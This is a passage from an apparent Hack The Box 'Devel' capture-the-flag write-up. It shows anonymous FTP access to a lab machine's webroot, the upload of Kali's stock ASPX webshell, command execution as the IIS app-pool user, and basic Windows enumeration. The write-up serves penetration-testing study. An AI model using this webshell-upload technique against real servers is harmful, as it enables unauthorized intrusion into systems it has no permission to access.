 ![[GitHub Documentation/EASY/HTB_Devel_Writeup/screenshots/ftp.png]]

We successfully log in and can list resources. To check if file uploads are allowed, we create and upload a test file:

```bash
put test.txt
```

![[ftp_upload_test.png]]

The file uploads successfully, confirming we can place files in the webroot.

---
### 2.2 Uploading a Webshell

We upload the default ASPX webshell from Kali:

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx .
ftp 10.10.10.5
put cmdasp.aspx
whoami
```

![[ftp_upload_shell.png]]

We obtain remote command execution as user `iis apppool\web`.

---
### 2.3 System Enumeration

Check system details:

```bash
systeminfo
```

![[webshell_sysinfo.png]]

List users:

```bash
dir C:\Users
```

![[webshell_users.png]]

Check contents of `babis`:

```bash
dir C:\Users\babis
```

![[webshell_babis.png]]

No useful information found.

---